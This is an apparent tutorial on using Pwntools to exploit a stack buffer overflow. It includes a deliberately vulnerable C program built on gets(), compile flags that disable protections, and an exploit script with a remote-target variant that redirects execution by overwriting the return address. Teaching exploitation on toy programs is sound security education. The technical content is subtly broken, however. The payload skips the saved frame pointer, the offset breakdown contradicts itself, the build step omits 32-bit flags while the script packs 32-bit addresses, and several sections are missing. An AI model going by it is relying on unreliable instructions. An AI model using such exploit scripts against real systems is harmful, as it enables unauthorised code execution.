 ## **Guide to Using Pwntools for Crafting and Sending Payloads in Buffer Overflow Exploits**
How to use **Pwntools** to automate and send payloads for buffer overflow exploits. 

### **Example Vulnerable Program (vulnerable_program.c)**

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("You've triggered the secret function!\n");
}

void vulnerable_function() {
    char buffer[64];
    printf("Enter a string: ");
    gets(buffer);  // Vulnerable to buffer overflow
}

int main() {
    vulnerable_function();
    return 0;
}
```
In this example, the `gets()` function does not check for the buffer size, which allows us to overflow the `buffer` array and overwrite the return address of `vulnerable_function()` to point to the `secret_function()`.

### **3. Analyzing the Vulnerability**
Before crafting a payload, it's essential to understand:
- The buffer size (`64` bytes in this case)
- The location of the return address on the stack
- The address of the function we want to redirect execution to (in this case, `secret_function`)

To find the memory address of `secret_function`, we can use tools like `gdb`.
#### **Finding the Address of the Target Function**
Start by compiling the program with debugging symbols:
```bash
gcc -g -fno-stack-protector -z execstack vulnerable_program.c -o vulnerable_program
```

Then, in GDB, find the address of `secret_function`:
```bash
gdb vulnerable_program
(gdb) disas secret_function
```

This will give you an address, for example: `0x080484b6`.

### **4. Crafting the Payload**
The goal of the payload is to:
- Overflow the buffer
- Overwrite the saved return address to point to the `secret_function`'s address

**Steps**:
1. **Fill the buffer** with 64 bytes (the size of `buffer` in the vulnerable function).
2. **Overwrite the return address** with the address of `secret_function`.

We need to calculate the offset to the return address and pad our payload accordingly.

**Payload Breakdown**:
- **64 bytes** to fill the buffer
- **4 bytes** for the saved return address
- **Address of `secret_function`**: `0x080484b6` (example)

### **5. Pwntools Script to Craft and Send the Payload**

```python
from pwn import *

# Set up the process (local)
p = process('./vulnerable_program')

# Address of secret_function (from gdb or objdump)
secret_function_address = p32(0x080484b6)  # Replace with actual address

# Payload: 64 bytes to overflow the buffer + address of secret_function
payload = b"A" * 64 + secret_function_address

# Interact with the process
p.recvuntil("Enter a string: ")  # Wait for the prompt
p.sendline(payload)  # Send the payload

# Receive the output (i.e., the result of triggering the secret function)
output = p.recvall()
print(output.decode())  # Print the output
```
- `process('./vulnerable_program')`: Runs the vulnerable program locally.
- `p32(0x080484b6)`: Converts the address of `secret_function` into a 4-byte representation (little-endian format). This is necessary because the return address is stored in little-endian format on most systems.
- `payload = b"A" * 64 + secret_function_address`: This payload first overflows the buffer with 64 bytes of "A"s, then overwrites the return address with the address of `secret_function`.
- `p.recvuntil("Enter a string: ")`: Waits for the program to prompt for input.
- `p.sendline(payload)`: Sends the payload to the program.
- `p.recvall()`: Reads all output from the program, which will include the result of executing `secret_function` (i.e., the message "You've triggered the secret function!").

### **7. Running the Exploit**

Run the script:
```bash
python exploit.py
```

You should see output indicating that the secret function was triggered, such as:
```
You've triggered the secret function!
```

### **8. Sending Input via `scanf` or `fgets`**

If the vulnerable program uses functions like `scanf()` or `fgets()` to read input, you can adapt your payload to match the format expected by these functions.

For example, if the program expects multiple inputs, you might need to provide additional values in your payload to satisfy the input format.

```python
# Example for fgets() with buffer size of 64
payload = b"A" * 64 + secret_function_address
p.sendline(payload)  # Send the payload
```

### **9. Remote Exploit (If Target Is Remote)**

If the target is remote, you can use `remote()` instead of `process()`:
```python
# Connect to the remote service
p = remote('target_ip', target_port)

# Send payload as before
p.sendline(payload)

# Receive output
output = p.recvall()
print(output.decode())
```

### **10. Conclusion**

- **Buffer Overflow Exploits**: Buffer overflows allow attackers to overwrite memory regions, including return addresses, to redirect program execution.
- **Pwntools**: Pwntools simplifies the task of automating buffer overflow exploits by providing convenient functions to interact with processes and send payloads.
- **Reverse Engineering**: The key to successful exploitation often lies in understanding the target program’s memory layout and finding the correct return addresses and buffer sizes.

### **Key Points to Remember**
- **Addresses**: Make sure you’re using the correct memory addresses (e.g., target function address).
- **Offsets**: Ensure the payload is correctly padded to match the buffer size and the location of the return address.
- **Environment**: You might need to disable protections like ASLR or stack canaries to successfully exploit buffer overflows.
